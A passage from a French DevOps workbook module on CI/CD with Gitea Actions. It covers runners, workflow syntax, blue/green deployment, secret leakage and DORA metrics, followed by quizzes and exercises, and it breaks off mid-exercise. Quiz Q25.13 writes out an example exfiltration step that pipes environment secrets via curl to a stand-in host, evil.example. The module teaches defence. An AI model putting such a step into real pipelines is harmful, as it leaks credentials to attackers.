


<!-- nav:début -->
[Accueil](../../README.md) › [Parcours](../../docs/parcours.md) › Partie IV — Socle DevOps › **Module 25**  
[← Module 24](../24-iac-terraform/README.md) · [Corrigé](corrige.md) · [Module 26 →](../26-kubernetes-observabilite/README.md)

<details><summary>Scripts du module (10)</summary>

Sur la VM indiquée en section « Mise en place », depuis `~/workbook/scripts/` (voir [chapitre 0](../../docs/00-mise-en-place.md)).

| Script | Rôle |
|---|---|
| [`setup_M25.sh`](../../scripts/setup/setup_M25.sh) | prépare le module |
| [`check_M25_01.sh`](../../scripts/check/check_M25_01.sh) | vérifie L25.1 |
| [`check_M25_02.sh`](../../scripts/check/check_M25_02.sh) | vérifie L25.2 |
| [`check_M25_03.sh`](../../scripts/check/check_M25_03.sh) | vérifie L25.3 |
| [`check_M25_04.sh`](../../scripts/check/check_M25_04.sh) | vérifie L25.4 |
| [`check_M25_05.sh`](../../scripts/check/check_M25_05.sh) | vérifie D25 |
| [`break_M25_01.sh`](../../scripts/break/break_M25_01.sh) | installe la panne BF25.1 |
| [`break_M25_02.sh`](../../scripts/break/break_M25_02.sh) | installe la panne BF25.2 |
| [`break_M25_03.sh`](../../scripts/break/break_M25_03.sh) | installe la panne BF25.3 |
| [`break_M25_04.sh`](../../scripts/break/break_M25_04.sh) | installe la panne BF25.4 |

</details>
<!-- nav:fin -->

# Module 25 — CI/CD : intégration et déploiement continus

## 25.0 Objectifs et compétences

> [!NOTE]
> **Objectifs**
>
> À la fin de ce module, je sais :
>
> * distinguer **intégration continue**, **livraison continue** et
>   **déploiement continu**, et dire à quel moment précis un humain intervient
>   dans chacun des trois ;
> * décrire un pipeline avec le vocabulaire commun à toutes les forges :
>   déclencheur, *stage*, *job*, *step*, *runner*, artefact, cache, matrice,
>   environnement, approbation, secret, *fail fast* ;
> * installer une forge Gitea auto-hébergée (Docker Compose + PostgreSQL) sur
>   `lab-ops`, y enregistrer un **act_runner** avec des labels, et expliquer
>   ce que change « un conteneur par job » par rapport à « shell sur l'hôte »
>   pour l'isolation et les secrets ;
> * écrire un workflow `.gitea/workflows/ci.yaml` complet : `on`, `jobs`,
>   `runs-on`, `steps`, `uses`/`run`, `env`, `secrets`, `needs`, `if`,
>   `matrix`, artefacts, cache, `services`, `timeout-minutes`, `concurrency` ;
> * construire le pipeline d'une application conteneurisée : lint, tests,
>   build d'image taguée par SHA, scan de vulnérabilités, push vers un
>   registre, déploiement par SSH, smoke test, **rollback automatique** ;
> * construire un pipeline d'infrastructure : `ansible-lint` et
>   `--check --diff` en *pull request*, apply au merge ; `tofu plan` en PR,
>   apply sur approbation ;
> * mettre en œuvre un déploiement **blue/green** réel derrière nginx et
>   situer *recreate*, *rolling*, *canary* et *feature flags* ;
> * appliquer « *build once, deploy many* » : images taguées par SHA, tags Git
>   SemVer, promotion d'artefact, changelog ;
> * protéger les secrets d'un pipeline : masquage, fuites par `set -x`,
>   `curl -v` ou encodage, clé SSH de déploiement à commande forcée,
>   rotation, principe de l'OIDC ;
> * diagnostiquer les pannes classiques : job non déclenché, job en attente,
>   permission Docker, artefact absent, cache corrompu, « ça passe en CI mais
>   pas en prod », pipeline lent ;
> * transposer le même pipeline en GitLab CI, GitHub Actions et Jenkins ;
> * citer et calculer les **quatre métriques DORA**.
>
> **Temps estimé** : 10 h
>
> **Prérequis** : module 07 (bash), module 14 (SSH), module 21 (Git), et les
> modules conteneurs (Docker, Compose), Ansible et OpenTofu du workbook. Les
> rappels minimaux nécessaires sont donnés dans le module.

---

## 25.1 Mise en place

VM concernées : **`lab-ops` (10.10.10.14)** héberge la forge (Gitea), le
runner et le registre d'images ; **`lab-web` (10.10.10.11)** est la cible de
déploiement. `lab-adm` sert uniquement de poste d'édition si tu préfères.

```bash
# depuis le shell Proxmox, avant de commencer
qm snapshot 9005 avant-lab25
qm snapshot 9002 avant-lab25
```

Sur `lab-ops`, le script de setup installe Docker s'il manque, déclare le
registre local comme non sécurisé, lance Gitea + PostgreSQL + registre +
runner, crée le compte `mathieu`, deux dépôts (`factura`, `factura-infra`)
et une application d'exemple :

```bash
sudo bash ~/workbook/scripts/setup/setup_M25.sh
# puis, pour que ton shell voie le groupe docker :
newgrp docker
```

Sur `lab-web` (le script détecte l'hôte) :

```bash
sudo bash ~/workbook/scripts/setup/setup_M25.sh
```

Il installe Docker et nginx, crée l'utilisateur `deploy` et le répertoire
`/srv/factura`. Il ne configure ni nginx ni les clés : c'est ton travail.

Ce que tu obtiens sur `lab-ops` :

```text
~/lab25/
  forge/            compose.yaml, .env, runner/config.yaml, données
  factura/          l'application (Flask, pytest, Dockerfile, compose)
  factura-infra/    playbook Ansible + configuration OpenTofu
  keys/             clés de déploiement (deploy, ansible)
  .gitea-token      jeton d'API personnel (mode 0600)
  rapports/
```

Accès : `http://10.10.10.14:3000`, utilisateur `mathieu`, mot de passe
`Factura2026!` (à changer dès le premier lab en production, ici on le garde).
Registre : `10.10.10.14:5000`, protégé par `htpasswd` (`mathieu` /
`Factura-Reg-2026`) ; le setup a fait le `docker login` pour toi sur
`lab-ops` et pour `deploy` sur `lab-web`. Le runner est enregistré avec le
label `ubuntu-latest`.

> [!CAUTION]
> **Attention**
>
> Le runner tourne avec `/var/run/docker.sock` monté : tout job du pipeline
> est de fait **root sur `lab-ops`**. C'est voulu pour le lab (on a besoin de
> construire des images) et c'est exactement le genre de choix qu'on doit
> savoir défendre ou refuser en entreprise — voir QO25.4.

Vérifie avant d'attaquer :

```bash
docker compose -f ~/lab25/forge/compose.yaml ps
curl -s http://10.10.10.14:3000/api/healthz
curl -s -u mathieu:Factura-Reg-2026 http://10.10.10.14:5000/v2/_catalog
```

> [!IMPORTANT]
> **Variante Rocky / RHEL**
>
> Ce module tourne entièrement sur Ubuntu (`lab-ops`, `lab-web`). Si tu voulais
> héberger le runner sur `lab-rhel` : `sudo dnf install -y docker-ce` depuis le
> dépôt Docker, `firewall-cmd --add-port=3000/tcp --permanent`, et SELinux
> impose `:z` sur les volumes montés dans le compose.

---

## 25.2 Rappel express

### Trois niveaux, un seul critère : où s'arrête l'automate

| Pratique | S'arrête après | Décision humaine |
|---|---|---|
| Intégration continue (CI) | build + tests sur chaque commit | aucune |
| Livraison continue (*delivery*) | artefact **déployable** produit et validé | le déploiement en prod |
| Déploiement continu (*deployment*) | mise en production | aucune (le pipeline décide) |

Un pipeline = déclencheur → *stages* ordonnés → *jobs* parallèles dans un
stage → *steps* séquentiels dans un job. Un job tourne sur un **runner**
(agent qui tire le travail de la forge ; jamais l'inverse). Ce qui passe d'un
job à l'autre : **rien**, sauf artefacts (fichiers publiés), sorties
(`outputs`) et cache (accélérateur, jamais une garantie).

### Vocabulaire commun aux trois forges

| Notion | Gitea / GitHub Actions | GitLab CI |
|---|---|---|
| fichier | `.gitea/workflows/*.yaml` | `.gitlab-ci.yml` |
| déclencheur | `on:` | `workflow: rules`, `only/except` |
| étape | `jobs.<id>` + `needs` | `stages` + `stage:` |
| commande | `steps[].run` / `uses` | `script:` / `include` |
| agent | `runs-on: <label>` | `tags: [<label>]` |
| artefact | `actions/upload-artifact` | `artifacts: paths:` |
| cache | `actions/cache` | `cache: key/paths` |
| matrice | `strategy.matrix` | `parallel: matrix` |
| condition | `if:` | `rules: - if:` |
| manuel | `environment` + reviewers (GitHub) | `when: manual` |
| conteneur du job | `container: image:` | `image:` |
| service | `services:` | `services:` |

Gitea Actions reprend la syntaxe GitHub Actions ; les actions publiques
(`actions/checkout@v4`, `actions/cache@v4`, `actions/upload-artifact@v4`,
`docker/login-action@v3`, `docker/build-push-action@v5`) sont téléchargées
depuis `github.com` par défaut (`DEFAULT_ACTIONS_URL`). Différences à
connaître : pas d'`environment` avec approbation native, contexte `gitea.*`
(alias de `github.*`), jeton automatique `secrets.GITEA_TOKEN`, et `concurrency` honoré seulement à partir de Gitea 1.26 (ignoré avant).

### Le runner Gitea : act_runner

```bash
act_runner generate-config > config.yaml
IMG=docker.gitea.com/runner-images:ubuntu-latest
act_runner register --no-interactive --instance http://10.10.10.14:3000 \
  --token <TOKEN_D_ENREGISTREMENT> --name runner-ops \
  --labels "ubuntu-latest:docker://$IMG,lab-shell:host"
act_runner daemon --config config.yaml
```

Un label = `nom[:schéma[:argument]]`. Schéma `docker://image` : chaque job
démarre dans un conteneur neuf de cette image. Schéma `host` : le job tourne
dans le shell du runner, avec ses outils, ses fichiers, son utilisateur.
`runs-on: ubuntu-latest` dans un workflow **ne signifie rien en soi** : c'est
la correspondance avec un label déclaré qui décide ; sans correspondance, le
job reste `waiting` (Gitea l'annule au bout de `ABANDONED_JOB_TIMEOUT`, 24 h par défaut) et l'onglet *Actions* affiche « No matching online runner with label ».

Jeton d'enregistrement : *Administration du site → Actions → Runners*, ou
`gitea actions generate-runner-token` en CLI. `config.yaml` : `runner.labels`,
`runner.capacity` (jobs simultanés), `cache.enabled`, `container.docker_host`
(`""` monte le socket Docker dans les jobs, `"-"` ne le monte pas),
`container.privileged`, `container.valid_volumes`.

### Squelette de workflow

```yaml
name: ci
on:
  push:
    branches: [main]
    tags: ["v*"]
  pull_request:
  workflow_dispatch:
env:
  IMAGE: 10.10.10.14:5000/factura
concurrency:
  group: ci-${{ gitea.ref }}
  cancel-in-progress: true
jobs:
  test:
    runs-on: ubuntu-latest
    timeout-minutes: 10
    container:
      image: python:3.12-slim
    services:
      db:
        image: postgres:16
        env:
          POSTGRES_PASSWORD: ci
    strategy:
      fail-fast: true
      matrix:
        python: ["3.11", "3.12"]
    steps:
      - uses: actions/checkout@v4
      - uses: actions/cache@v4
        with:
          path: ~/.cache/pip
          key: pip-${{ hashFiles('requirements*.txt') }}
      - run: pip install -r requirements.txt && pytest -q
      - uses: actions/upload-artifact@v4
        if: always()
        with:
          name: rapport
          path: rapport.xml
  deploy:
    needs: test
    if: gitea.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    env:
      KEY: ${{ secrets.DEPLOY_SSH_KEY }}
    steps:
      - run: printf '%s\n' "$KEY" > ~/.ssh/deploy
```

Points de syntaxe qui coûtent des heures :

* `on` est un mot-clé, mais YAML 1.1 le lit comme le booléen `true` : les
  forges l'acceptent, `yamllint` râle (`truthy`) — désactive la règle pour
  cette clé ou quote `"on"`.
* Les expressions `${{ }}` sont substituées **avant** que le shell lise le
  script : un secret dans `run:` est injecté en clair dans le texte de la
  commande. Passe-le par `env:` et lis `"$VAR"`.
* `needs` ordonne **et** transmet `needs.<job>.outputs.<nom>` ; sans `needs`,
  les jobs sont parallèles.
* `if: failure()` ne se déclenche que si un step **précédent du même job** a
  échoué ; `always()` pour un nettoyage ; un job dépendant d'un job échoué est
  **sauté**, pas échoué, sauf `if: always()`.
* `GITHUB_SHA`, `GITHUB_REF_NAME`, `GITHUB_OUTPUT`, `GITHUB_ENV`,
  `GITHUB_WORKSPACE` sont définis dans les steps `run` ; `gitea.sha`,
  `gitea.ref`, `gitea.event_name`, `gitea.actor` dans les expressions.

### Pipeline applicatif de référence

```text
lint ──┐
       ├─► build(image :SHA) ─► scan trivy ─► push ─► deploy ─► smoke
test ──┘                                                        │ échec
                                                                ▼
                                                            rollback
```

* **Une seule construction** : l'image `factura:<sha12>` est ce qui est
  testé, scanné, déployé en recette, puis promue en prod par un simple
  re-tag. Jamais de rebuild « pour la prod ».
* Tag `latest` : pointeur mobile, non reproductible, jamais dans un
  déploiement. Tag Git `v1.4.2` (SemVer : `MAJEUR.MINEUR.CORRECTIF`) posé
  sur le commit → l'image reçoit le tag `v1.4.2` **en plus** du SHA.
* Smoke test = une requête qui prouve que **cette** version répond
  (`/version` doit renvoyer le SHA attendu), pas juste un HTTP 200.
* Rollback = redéployer l'image précédente, connue et déjà tirée. Pas de
  rebuild.

<p align="center"></p>

*Figure — Le pipeline de référence : une seule image `:<sha12>` construite, scannée et poussée par le runner de lab-ops, déployée en staging, promue à la main vers la prod en blue/green, rollback sans rebuild.*

### Stratégies de déploiement

| Stratégie | Coupure | Coût | Retour arrière |
|---|---|---|---|
| recreate | oui | 1× | redéploiement |
| rolling | non | 1× + 1 instance | rolling inverse |
| blue/green | non | 2× | bascule instantanée |
| canary | non | 1× + 1 instance | retirer le canari |

*Feature flags* : la version est déployée, la fonctionnalité est activée à
l'exécution (config, %, groupe d'utilisateurs). Découple *déployer* de
*livrer*. Blue/green derrière nginx : deux `upstream`, un `include` qui pointe
via symlink sur l'un des deux, `nginx -t && systemctl reload nginx`.

<p align="center"></p>

*Figure — Blue/green derrière nginx : deux upstreams, un symlink de configuration, `nginx -t` puis `reload` ; l'ancienne couleur reste en service, prête pour `back`.*

### Secrets : les cinq fuites qui reviennent

1. `set -x` / `bash -x` : chaque commande développée est tracée, arguments
   compris.
2. `curl -v`, `wget -d`, `git clone https://user:token@…` : l'en-tête
   `Authorization` ou l'URL apparaît dans le journal.
3. Encodage : le masquage remplace la chaîne **exacte** ; `base64`,
   URL-encoding, JSON échappé, découpage (`${P:0:8}`) passent au travers.
4. Artefacts et caches : un `.env` ou `~/.ssh` archivé « pour déboguer ».
5. Fork / PR externe : un workflow modifié par la PR s'exécute avec les
   secrets si la forge ne le bloque pas.

Contre-mesures : secrets par `env:`, clé SSH dédiée au déploiement avec
`command="…"` et `from="10.10.10.14"` dans `authorized_keys`, rotation
planifiée, jetons de courte durée (OIDC : le runner prouve son identité à un
fournisseur qui délivre un jeton de quelques minutes — plus rien de statique à
voler).

### DORA : quatre métriques, deux axes

| Métrique | Mesure | Élite (ordre de grandeur) |
|---|---|---|
| Fréquence de déploiement | déploiements prod / période | à la demande, plusieurs/jour |
| Délai de mise en production (*lead time*) | commit → prod | < 1 jour |
| Taux d'échec des changements | déploiements causant un incident / total | < 15 % |
| Temps de rétablissement (MTTR) | incident → service rétabli | < 1 h |

Les deux premières mesurent le **débit**, les deux dernières la
**stabilité**. Un pipeline fiable améliore les quatre à la fois ; un
pipeline qui saute les tests améliore les deux premières et détruit les
autres.

### Diagnostic express

| Symptôme | Premier réflexe |
|---|---|
| aucun run n'apparaît | YAML invalide ou `on:` ne couvre pas l'événement |
| run `waiting` sans fin | aucun runner avec le label `runs-on` |
| `permission denied` sur docker.sock | socket non monté ou `docker_host: "-"` |
| artefact « not found » | job producteur sauté, ou `path` relatif faux |
| cache restauré mais inutile | clé sans `hashFiles`, contenu périmé |
| vert en CI, cassé en prod | image différente, variable absente, `latest` |
| pipeline lent | pas de cache, pas de parallélisme, `apt` à chaque job |

---

## 25.3 Quiz — QCM

<a id="q25-1"></a>**[Q25.1](corrige.md#q25-1)** — Une équipe déploie en production dès qu'un pipeline est vert, sans
intervention humaine. Un manager déclare qu'ils « font de la livraison
continue ». Que fait réellement l'équipe ?

a) de l'intégration continue seulement
b) de la livraison continue, le terme est exact
c) du déploiement continu, qui inclut la livraison continue
d) rien de tout cela sans revue manuelle

<a id="q25-2"></a>**[Q25.2](corrige.md#q25-2)** — Ce workflow Gitea ne produit **aucun run** après un `git push`
sur `main`. Quelle est la cause la plus probable ?

```yaml
name: ci
on:
  push:
    branches: [ main ]
jobs:
  test:
  runs-on: ubuntu-latest
    steps:
      - run: echo ok
```

a) `branches: [ main ]` doit s'écrire sans espaces
b) le fichier est invalide : `runs-on` n'est pas indenté sous `test`
c) `echo ok` n'est pas une commande autorisée
d) il manque `workflow_dispatch`

<a id="q25-3"></a>**[Q25.3](corrige.md#q25-3)** — Un job `runs-on: ubuntu-22.04` reste à l'état `waiting` depuis
20 minutes. Le runner est en ligne et exécute d'autres jobs. Pourquoi ?

a) le runner n'a pas de label `ubuntu-22.04`
b) le job attend une approbation
c) le dépôt est privé
d) le cache est verrouillé par un autre job

<a id="q25-4"></a>**[Q25.4](corrige.md#q25-4)** — Dans `act_runner`, le label
`ubuntu-latest:docker://docker.gitea.com/runner-images:ubuntu-latest` et
le label `ops:host` diffèrent par… **Deux réponses correctes.**

a) `host` exécute le job dans un conteneur privilégié
b) `docker://` démarre un conteneur neuf par job, `host` utilise le shell du
   runner
c) avec `host`, ce qu'un job installe reste disponible pour le suivant
d) avec `docker://`, le job n'a jamais accès à Docker

<a id="q25-5"></a>**[Q25.5](corrige.md#q25-5)** — Quel step **expose** le secret dans les journaux, même avec
masquage actif ? **Deux réponses correctes.**

a) `run: curl -u "admin:$REG_PASS" http://r/v2/` avec
   `env: REG_PASS: ${{ secrets.P }}`
b) `run: set -x; auth=$(printf 'admin:%s' "$REG_PASS" | base64);`
   `curl -H "Authorization: Basic $auth" …`
c) `run: curl -v -u "admin:$REG_PASS" http://r/v2/`
d) `run: echo "longueur : ${#REG_PASS}"`

<a id="q25-6"></a>**[Q25.6](corrige.md#q25-6)** — Le job `deploy` a `needs: build` et `if: failure()` sur son step
`rollback`. Le job `build` échoue. Que se passe-t-il pour `deploy` ?

a) il s'exécute et lance `rollback`
b) il est sauté entièrement : `failure()` porte sur les steps du job courant
c) il s'exécute mais tous ses steps sont ignorés
d) il échoue avec le même code que `build`

<a id="q25-7"></a>**[Q25.7](corrige.md#q25-7)** — Ton pipeline construit `factura:latest`, le pousse, et
`lab-web` fait `docker compose pull & up -d`. Un jour, la prod tourne avec
une version vieille de trois jours alors que le pipeline est vert. Cause la
plus plausible ?

a) `docker compose up -d` ne redémarre jamais un conteneur
b) une autre source a poussé `latest` entre-temps : le tag est un pointeur
   mobile, pas une identité
c) le registre a un cache de 72 h
d) Docker refuse de tirer une image de moins d'une heure

<a id="q25-8"></a>**[Q25.8](corrige.md#q25-8)** — Sortie de `docker compose ps` sur `lab-ops` :

```text
NAME      IMAGE                         STATUS
gitea     docker.gitea.com/gitea:1.26   Up 2 hours
db        postgres:16                   Up 2 hours
runner    docker.gitea.com/act_runner   Restarting (1) 12 seconds ago
```

et `docker compose logs runner` répète
`connect: connection refused` vers `http://gitea:3000`. Pourquoi, alors
que Gitea répond depuis ton navigateur ?

a) le runner doit toujours utiliser HTTPS
b) le runner n'est pas sur le même réseau Docker que `gitea`, le nom n'est
   pas résolu ou pas joignable
c) le jeton d'enregistrement a expiré
d) PostgreSQL bloque les connexions

<a id="q25-9"></a>**[Q25.9](corrige.md#q25-9)** — Les quatre métriques DORA sont :

a) couverture de tests, dette technique, vélocité, bugs ouverts
b) fréquence de déploiement, délai de mise en production, taux d'échec des
   changements, temps de rétablissement
c) disponibilité, latence, trafic, saturation
d) MTBF, MTTR, RPO, RTO

<a id="q25-10"></a>**[Q25.10](corrige.md#q25-10)** — « *Build once, deploy many* » interdit précisément…

a) de déployer la même image sur deux environnements
b) de reconstruire l'artefact entre la recette et la production
c) d'avoir plus d'un job de build dans le pipeline
d) d'utiliser des tags Git

<a id="q25-11"></a>**[Q25.11](corrige.md#q25-11)** — Un `actions/cache@v4` avec `key: pip-cache` (clé fixe)
restaure un cache à chaque job. Après mise à jour de `requirements.txt`, les
tests échouent sur un module manquant en CI mais passent en local.
Explication ?

a) le cache contient les anciens paquets et la clé ne change jamais : `pip`
   croit être à jour
b) `actions/cache` ne fonctionne pas avec Python
c) il faut vider le cache à la main après chaque commit
d) `hashFiles` est obligatoire syntaxiquement

<a id="q25-12"></a>**[Q25.12](corrige.md#q25-12)** — Blue/green derrière nginx : la bascule se fait par
`ln -sfn factura-green.conf factura-upstream.conf` puis…

a) `systemctl restart nginx` — obligatoire pour relire un symlink
b) `nginx -t && systemctl reload nginx` — le test évite de couper le service
   sur une conf fausse, le reload garde les connexions en cours
c) rien, nginx surveille les fichiers
d) `nginx -s stop && nginx`

<a id="q25-13"></a>**[Q25.13](corrige.md#q25-13)** — Une PR venant d'un fork modifie `.gitea/workflows/ci.yaml`
pour y ajouter `run: env | curl -X POST -d @- https://evil.example`. Quel
mécanisme protège **réellement** ?

a) le masquage des secrets dans les logs
b) la forge n'expose pas les secrets aux workflows de PR issues de forks
   et/ou exige une approbation avant de les exécuter
c) `timeout-minutes`
d) le fait que le runner soit dans un conteneur

<a id="q25-14"></a>**[Q25.14](corrige.md#q25-14)** — `tofu plan` tourne sur chaque PR, `tofu apply` seulement après
approbation. Sur Gitea (pas d'`environment` avec reviewers), comment
implémenter proprement l'approbation ? **Deux réponses correctes.**

a) un job `apply` déclenché par `workflow_dispatch`, sur une branche protégée
   où seuls certains comptes peuvent pousser
b) `if: gitea.actor == 'mathieu'` seul, sans protection de branche
c) protection de branche `main` avec revue obligatoire, apply sur `push`
   vers `main` uniquement
d) `sleep 600` pour laisser le temps de relire

<a id="q25-15"></a>**[Q25.15](corrige.md#q25-15)** — Le step suivant échoue avec `Cannot connect to the Docker daemon
at unix:///var/run/docker.sock`. Le runner est en Docker avec le socket
monté. Cause probable ?

```yaml
runs-on: ubuntu-latest
container:
  image: python:3.12-slim
steps:
  - run: docker build -t app .
```

a) `python:3.12-slim` n'a pas de client `docker` ; le message vient d'un
   binaire absent
b) le socket est monté mais `docker_host` vaut `"-"` dans `config.yaml`, ou
   l'image n'a pas le client — vérifie `which docker` avant de conclure
c) il faut `privileged: true`
d) un `container:` ne peut jamais accéder à Docker

<a id="q25-16"></a>**[Q25.16](corrige.md#q25-16)** — Version courante `2.3.7`. Tu ajoutes un endpoint `/factures/<id>`
sans casser l'existant et corriges un bug. Prochain tag SemVer ?

a) `2.3.8`
b) `2.4.0`
c) `3.0.0`
d) `2.4.1`

<a id="q25-17"></a>**[Q25.17](corrige.md#q25-17)** — Quel changement réduit le plus le temps d'un pipeline de
9 minutes dont 6 sont passées dans `apt-get install` répété par 4 jobs ?

a) `timeout-minutes: 5`
b) une image de runner (ou `container:`) contenant déjà les outils, ou un
   seul job d'installation dont dépendent les autres
c) `fail-fast: false`
d) passer de `docker://` à `host`

<a id="q25-18"></a>**[Q25.18](corrige.md#q25-18)** — Un workflow a `concurrency: { group: deploy-prod,
cancel-in-progress: true }` sur le job de déploiement. Deux pushes rapides
sur `main`. Conséquence ?

a) les deux déploiements tournent en parallèle
b) le second annule le premier, potentiellement en plein `docker compose up`
   — pour un déploiement on veut `cancel-in-progress: false`
c) le second attend le premier, quel que soit `cancel-in-progress`
d) le second est refusé définitivement

---

## 25.4 Quiz — questions ouvertes

<a id="qo25-1"></a>**[QO25.1](corrige.md#qo25-1)** — Définis CI, livraison continue et déploiement continu en
précisant, pour chacun, **quel artefact** existe à la fin et **qui** décide
de la mise en production. Donne un exemple d'équipe pour laquelle le
déploiement continu serait une erreur, et pourquoi.

<a id="qo25-2"></a>**[QO25.2](corrige.md#qo25-2)** — *On te demande en entretien* : « Décris le pipeline que tu
mettrais en place pour une application conteneurisée, du commit à la
production, en justifiant l'ordre des étapes et en disant ce qui bloque le
pipeline à chaque étape. » Réponds en 10 lignes, sans citer d'outil précis
avant la fin.

<a id="qo25-3"></a>**[QO25.3](corrige.md#qo25-3)** — Explique le mécanisme par lequel un secret « masqué » finit
quand même dans un journal de pipeline. Cite trois vecteurs différents, et
pour chacun la contre-mesure. Pourquoi `env:` est-il préférable à `${{ }}`
directement dans `run:` ?

<a id="qo25-4"></a>**[QO25.4](corrige.md#qo25-4)** — Sur `lab-ops`, le runner monte `/var/run/docker.sock` dans
chaque job. Explique ce qu'un job peut faire avec ce socket, pourquoi c'est
équivalent à root sur l'hôte, et décris deux architectures qui permettent de
construire des images **sans** ce montage. Quel compromis retiens-tu pour une
PME de 15 développeurs ?

<a id="qo25-5"></a>**[QO25.5](corrige.md#qo25-5)** — Compare blue/green et canary : infrastructure requise, ce qu'on
mesure avant de basculer, ce qu'il advient de l'état (sessions, base de
données) et le cas où chacune est inapplicable. Où se placent les *feature
flags* par rapport à ces deux stratégies ?

<a id="qo25-6"></a>**[QO25.6](corrige.md#qo25-6)** — *On te demande en entretien* : « Le pipeline est vert, la prod
est cassée. Comment tu enquêtes ? » Donne ta démarche ordonnée : ce que tu
compares, les commandes sur `lab-web` et sur le registre, et les trois causes
qui expliquent 90 % des cas.

<a id="qo25-7"></a>**[QO25.7](corrige.md#qo25-7)** — Explique « *build once, deploy many* » en décrivant ce qu'est une
**promotion** d'artefact et pourquoi une image taguée uniquement par un
numéro de version Git ne suffit pas. Que faut-il faire du tag `latest` ?

<a id="qo25-8"></a>**[QO25.8](corrige.md#qo25-8)** — Un job `tofu apply` doit attendre une approbation humaine. Décris
comment tu l'obtiens sur GitLab CI, sur GitHub Actions et sur Gitea Actions,
en pointant ce qui est natif et ce qui est contourné. Quel risque spécifique
introduit le contournement ?

<a id="qo25-9"></a>**[QO25.9](corrige.md#qo25-9)** — Un runner « éphémère » : qu'est-ce que c'est, quel problème
résout-il (cite un incident concret qu'il évite), et quel coût introduit-il ?
Comment gères-tu le disque d'un runner persistant qui construit 40 images
par jour ?

<a id="qo25-10"></a>**[QO25.10](corrige.md#qo25-10)** — Donne une définition opérationnelle des quatre métriques DORA
(quelle donnée brute, où la trouver dans Gitea/Git/les logs de déploiement)
et explique pourquoi optimiser les deux premières sans surveiller les deux
dernières est une erreur classique.

---

## 25.5 Exercices guidés ★

Sauf mention contraire, tu travailles sur `lab-ops`, dans `~/lab25`. Chaque
workflow que tu écris doit passer `yamllint` (avec la règle `truthy`
désactivée pour la clé `on`).

<a id="e25-1"></a>**[E25.1](corrige.md#e25-1)** — Inspecte la forge livrée par le setup : liste les conteneurs et
leurs ports publiés, trouve dans `~/lab25/forge/compose.yaml` la variable
qui active Gitea Actions, celle qui saute l'installateur web, et le montage
qui donne à `act_runner` accès à Docker. Note le nom du volume où le runner
garde son enregistrement (`.runner`).

<a id="e25-2"></a>**[E25.2](corrige.md#e25-2)** — Avec l'API et ton jeton (`~/lab25/.gitea-token`), affiche la
liste de tes dépôts, puis le contenu de `~/lab25/factura/README.md` tel que
Gitea le sert. Enregistre ensuite un *credential helper* Git de type `store`
dans un fichier de `~/lab25/` pour ne plus taper le jeton, et vérifie par un
`git push` à vide.

<a id="e25-3"></a>**[E25.3](corrige.md#e25-3)** — Écris `.gitea/workflows/hello.yaml` dans `factura` : déclenché
sur `push` **et** manuellement, un job qui affiche `gitea.sha`,
`gitea.ref`, `gitea.actor`, `gitea.event_name` et les variables
`GITHUB_SHA`, `GITHUB_REF_NAME`, `GITHUB_WORKSPACE`. Pousse, observe le run,
puis déclenche-le à la main depuis l'interface. Note ce qui diffère entre les
deux exécutions.

<a id="e25-4"></a>**[E25.4](corrige.md#e25-4)** — Ajoute au même workflow une **matrice** `python: ["3.11",
"3.12"]` avec `container: image: python:${{ matrix.python }}-slim` qui
lance `pytest -q`. Le premier `pytest` doit échouer sur un import : installe
les dépendances. Fais ensuite volontairement échouer 3.11 (par exemple avec
`if: matrix.python == '3.11'` sur un `exit 1`) et observe l'effet de
`fail-fast: true` puis `false` sur l'autre job.

<a id="e25-5"></a>**[E25.5](corrige.md#e25-5)** — Crée deux jobs `a` et `b` sans lien, puis un job `c` avec
`needs: [a, b]`. Dans `a`, produis une sortie `version` via `$GITHUB_OUTPUT`
et affiche-la dans `c`. Mesure la durée totale du run avec et sans `needs`
entre `a` et `b`, et explique la différence.

<a id="e25-6"></a>**[E25.6](corrige.md#e25-6)** — Fais produire à un job un fichier `rapport.txt` et publie-le en
artefact ; télécharge-le dans un second job avec `actions/download-artifact@v4`
et affiche-le. Puis casse volontairement : renomme le fichier sans changer
`path`. Note le message exact de l'échec et le job qui le remonte.

<a id="e25-7"></a>**[E25.7](corrige.md#e25-7)** — Ajoute un cache `pip` avec `actions/cache@v4` et une clé
construite sur `hashFiles('requirements*.txt')`. Lance deux fois : le
premier run doit afficher `Cache not found`, le second `Cache restored`.
Modifie `requirements-dev.txt` et prouve que la clé change.

<a id="e25-8"></a>**[E25.8](corrige.md#e25-8)** — Ajoute un `services:` PostgreSQL 16 à un job dans
`container: python:3.12-slim` et prouve, avec `pg_isready -h db` ou un
`psql`, que le service est joignable par son nom. Que se passe-t-il si tu
retires `container:` (job directement dans l'image du runner) ?

<a id="e25-9"></a>**[E25.9](corrige.md#e25-9)** — Crée, via l'API Gitea (`PUT
/api/v1/repos/mathieu/factura/actions/secrets/<NOM>`), un secret
`DEMO_SECRET` de valeur `s3cr3t-lab25`. Écris un step qui l'utilise par
`env:` et affiche `longueur = N`. Puis, dans un step séparé, tente
`echo "$DEMO_SECRET"`, `echo "$DEMO_SECRET" | base64` et
`set -x; curl -u "u:$DEMO_SECRET" http://10.10.10.14:5000/v2/`. Note
précisément ce que le journal montre pour chacun.

<a id="e25-10"></a>**[E25.10](corrige.md#e25-10)** — Depuis `~/lab25/factura`, sans pipeline (le setup a déjà fait
le `docker login` ; l'API du registre, elle, attend `-u`) : construis
l'image avec
`--build-arg APP_VERSION=$(git rev-parse --short=12 HEAD)`, tague-la
`10.10.10.14:5000/factura:<sha12>`, pousse-la, et vérifie via l'API du
registre (`/v2/factura/tags/list`) qu'elle y est. Compare le *digest* donné
par `docker inspect` avec celui renvoyé par
`curl -I` sur le manifest, en annonçant les deux types de manifest acceptés (`Accept:` OCI `image.manifest.v1+json` et Docker `distribution.`
manifest.`v2+json`).

<a id="e25-11"></a>**[E25.11](corrige.md#e25-11)** — Scanne cette image avec `trivy` (image
`aquasec/trivy`) en mode `--exit-code 1 --severity CRITICAL`. Lis le rapport
